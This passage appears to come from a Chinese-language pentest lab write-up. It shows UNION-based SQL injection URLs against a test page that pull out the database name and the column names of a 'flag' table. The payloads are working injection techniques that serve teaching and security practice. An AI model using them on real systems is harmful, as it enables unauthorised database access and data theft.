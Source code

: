 获取当前数据库名称

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=‘-1' union select 1,database(),3,4 --'
```

![&#x83B7;&#x53D6;&#x5F53;&#x524D;&#x6570;&#x636E;&#x5E93;&#x540D;&#x79F0;](../.gitbook/assets/1_2.png)

获取`flag`表的所有列

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= -1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'flag' %23
```

![&#x83B7;&#x53D6;flag&#x8868;&#x7684;&#x6240;&#x6709;&#x5217;](../.gitbook/assets/1_3.png)
